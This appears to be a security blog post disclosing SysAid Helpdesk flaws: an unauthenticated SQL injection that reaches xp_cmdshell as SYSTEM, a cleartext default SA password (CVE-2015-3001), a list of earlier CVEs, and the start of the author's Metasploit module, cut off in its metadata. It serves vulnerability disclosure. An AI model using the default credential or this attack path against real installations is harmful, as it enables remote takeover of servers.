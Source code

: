 The database is by default running as SA and can therefore activate ```xp_cmdshell``` to run operating system commands with the privileges of the user the database is running as. By default this user is the SYSTEM user on Windows. 

Also the default “SA” user’s password is “Password1” which can be found in cleartext in the configuration files (CVE-2015-3001)

<iframe width="420" height="315" src="https://www.youtube.com/embed/hbxL0UvYrdE" frameborder="0" allowfullscreen></iframe>

## Previous Vulnerabilities in Sysaid Software
* SysAid Server Arbitrary File Disclosure (2014-12-23)
* Ilient SysAid 8.5.5 Multiple Cross Site Scripting and HTML Injection Vulnerabilities (2012-03-08) 
* Authenticated Blind SQL injection (2012-11-30)
* CVE-2015-2993, CVE-2015-2994, CVE-2015-2995, CVE-2015-2996, CVE-2015-2997, CVE-2015-2998,CVE-2015-2999,CVE-2015-3000,CVE-2015-3001, CVE-2014-9436, CVE-2008-2179, CVE-2007-5259



## Metasploit module

I wrote my first "real" Metasploit module to have a simple way to exploit this. As I have little to no experience with writing Metasploit modules and I'm not fluent in Ruby, it is a bit of a hack. But it should work and I hope someone can make use of it, I know I will the next time I encounter one of these installations..   

[Exploit](https://bitbucket.org/hland/metasploitmodules/raw/fcabc17fb0bd00bf3a095f68fe8e1457b8407103/sysaid_sqli.rb)

```
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'
require 'msf/core/exploit/powershell'
require 'msf/core/exploit/mssql_commands'


class Metasploit3 < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Powershell
  include Msf::Exploit::Remote::HttpClient



  def initialize(info={})
    super(update_info(info,
      'Name'           => "Sysaid Helpdesk Software Unauthenticated SQLi",
      'Description'    => %q{
        This module exploits an unauthenticated SQLi vulnerability in the Sysaid 
        Helpdesk Free software. Because the "menu" parameter is not handled correctly,
        a malicious user can manipulate the SQL query, and allows
        arbitrary code execution under the context of 'SYSTEM' because the database
        runs as the SA user. This module uses a Metasploit generated Powershell payload and 
	uses xp_cmdshell, which is activated and then deactivated after exploitation.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'Hland', 
        ],
      'References'     =>
        [
```